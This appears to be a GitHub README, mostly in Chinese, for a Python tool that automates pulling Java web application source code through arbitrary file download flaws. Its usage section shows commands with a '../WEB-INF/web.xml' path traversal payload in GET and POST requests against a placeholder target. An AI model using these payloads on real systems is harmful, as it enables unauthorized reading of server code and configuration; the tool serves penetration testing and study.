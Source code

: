 # Java_xmlhack
帮助java环境下任意文件下载情况自动化读取源码的小工具

## 想法

[关于Java任意文件读取的学习](https://art3mis.top/2019/04/04/%e5%85%b3%e4%ba%8ejava%e7%9a%84%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96/)

## 使用
```bash
git clone https://github.com/Artemis1029/Java_xmlhack.git
cd Java_xmlhack
pip install -r requirements.txt
# if get
python xmlsearch.py -u https://xxx.xxx/?file=../WEB-INF/web.xml -c="cookie"
# if post
python xmlsearch.py -u https://xxx.xxx/ -d="file=../WEB-INF/web.xml" -t="content-type(default application/x-www-form-urlencoded)" -c="cookie"
```
![1](https://i.loli.net/2019/04/05/5ca728049a7fb.jpg)

![2](https://i.loli.net/2019/04/05/5ca7283ee522d.jpg)
